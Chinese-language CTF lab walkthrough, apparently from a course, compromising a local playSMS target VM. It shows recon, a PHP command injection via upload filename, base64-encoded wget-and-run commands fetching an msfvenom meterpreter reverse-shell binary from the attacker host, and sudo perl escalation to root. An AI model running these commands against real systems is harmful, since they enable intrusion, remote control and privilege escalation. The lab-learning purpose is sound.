

51CTO的网课，本篇利用nmap搜索开放端口，nikto、dirb挖掘web服务并探索robots.txt找到敏感目录，得到后台地址和用户口令，searchsploit搜索可利用漏洞，通过burpsuite篡改上传文件名为可执行命令，执行反弹shell获得低权用户shell，sudo -l查看免密sudo目录，使用perl命令行执行提权代码，获得root权限。

本篇使用工具nmap，dirb，nikto，burpsuite，metasploit。

<!-- more -->

# 使用命令

## perl提权

``` perl
sudo perl -e "exec '/bin/sh'"
```

## php

``` php
# 修改文件名为可执行php代码
<?php system(base64_decode('BAES64_TEXT_HERE'));die();?>.php
```

## base64

``` bash
# encode
echo "PLAIN_TEXT_HERE" | base64

# decode
echo "BASE64_TEXT_HERE" | base64 -d
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，一个`80`口的web服务，`dirb`挖掘`80`端口web信息，找到`robots.txt`和几个敏感目录：

``` bash
nmap -sV 192.168.1.121
dirb http://192.168.1.121 
```


2. 依次访问，`/secure/`找到可疑的备份文件，`/nothing/`页面源码找到几个密码口令：


3. 下载备份文件，解压需要密码，用前面的密码一个一个试：


4. 解压出来看着格式和大小都不太对，`file`查看格式是文本，读取得到后台登录页面和用户名：

``` bash
file backup-cred.mp3
```


5. 访问后台，还是前面的密码一个一个试：



6. 查找playSMS系统漏洞，找到一个修改文件名漏洞：

``` bash
searchsploit playSMS
```


7. 查看漏洞说明文档，有详细说明介绍：


8. burpsuite开启监听，配置好浏览器的代理，点击上传文件，`Proxy`截获报文，发送到`Repeater`准备修改：


9. `Repeater`里修改文件名为可执行命令，点击`Send`发送，右面的`Render`应该返回一个实时页面，这里出bug了，谷歌了一会也没解决：


10. 生成反弹shell，格式是linux下的可执行二进制文件elf，放到apache目录下，启动apache2服务：

``` bash
msfvenom -p linux/x86/meterpreter_reverse_tcp lhost=192.168.1.114 lport=4444 -f elf > shell.elf
cp shell.elf /var/www/html/shell.elf
service apache2 start
```


11. base64加密命令来绕过防火墙检测,依次修改文件名，每改一次需要重新抓一次包，不能重复发送同一个包：

``` bash
echo 'wget -O /tmp/shell http://192.168.1.114/shell.elf' | base64
echo 'chmod 777 /tmp/shell' | base64
echo '/tmp/shell' | base64
```


12. metasploit开启监听，依次执行完三条命令，反弹得到`www-data`权限的shell：


13. `sudo -l`查看发现`perl`有免密root执行权限，提权：

``` perl
sudo perl -e "exec '/bin/sh'"
sudo -i
```


# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)